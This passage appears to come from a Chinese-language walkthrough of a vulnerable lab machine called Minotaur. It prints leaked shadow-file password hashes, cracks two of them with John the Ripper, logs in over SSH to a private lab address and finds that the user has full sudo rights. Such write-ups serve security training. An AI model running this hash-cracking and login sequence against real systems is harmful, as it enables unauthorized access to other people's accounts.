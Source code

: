         landscape:*:16569:0:99999:7:::
        sshd:*:16569:0:99999:7:::
        minotaur:$6$3qaiXwrS$1Ctbj1UPpzKjWSgpIaUH0PovtO2Ar/IshWUe4tIUrJf8VlbIIijxdu4xHsXltA0mFavbo701X9.BG/fVIPD35.:16582:0:99999:7:::
        ftp:*:16573:0:99999:7:::
        heffer:$6$iH6pqgzM$3nJ00ToM38a.qLqcW8Yv0pdRiO/fXOvNv03rBzv./E0TO4B8y.QF/PNZ2JrghQTZomdVl3Zffb/MkWrFovWUi/:16582:0:99999:7:::
        h0rnbag:$6$nlapGOqY$Hp5VHWq388mVQemkiJA2U1qLI.rZAFzxCw7ivfyglRNgZ6mx68sE1futUy..m7dYJRQRUWEpm3XKihXPB9Akd1:16582:0:99999:7:::
        ```
        
3. 尝试爆破
    - 将泄露密码的几个账户保存为`users.txt`
        
        ```python
        john users.txt 
        //
        Using default input encoding: UTF-8
        Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
        Cost 1 (iteration count) is 5000 for all loaded hashes
        Will run 8 OpenMP threads
        Proceeding with single, rules:Single
        Press 'q' or Ctrl-C to abort, almost any other key for status
        Almost done: Processing the remaining buffered candidate passwords, if any.
        Proceeding with wordlist:/usr/share/john/password.lst
        Password1        (heffer)     
        obiwan6          (minotaur)     
        ```
        
        把两个用户的密码爆破出来了
        
    - 尝试用ssh登录
        
        ```python
        ssh minotaur@192.168.75.172
        minotaur@192.168.75.172's password:
        Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.16.0-30-generic i686)
        
         * Documentation:  https://help.ubuntu.com/
        
          System information as of Thu Oct 31 02:36:26 AEDT 2024
        
          System load: 0.72              Memory usage: 9%   Processes:       162
          Usage of /:  7.3% of 18.81GB   Swap usage:   0%   Users logged in: 0
        
          Graph this data and manage this system at:
            https://landscape.canonical.com/
        
        Last login: Wed May 27 16:55:30 2015
        minotaur@minotaur:~$ sudo -l
        Matching Defaults entries for minotaur on minotaur:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
        
        User minotaur may run the following commands on minotaur:
            (root) NOPASSWD: /root/bullquote.sh
            (ALL : ALL) ALL
        minotaur@minotaur:~$
        ```
        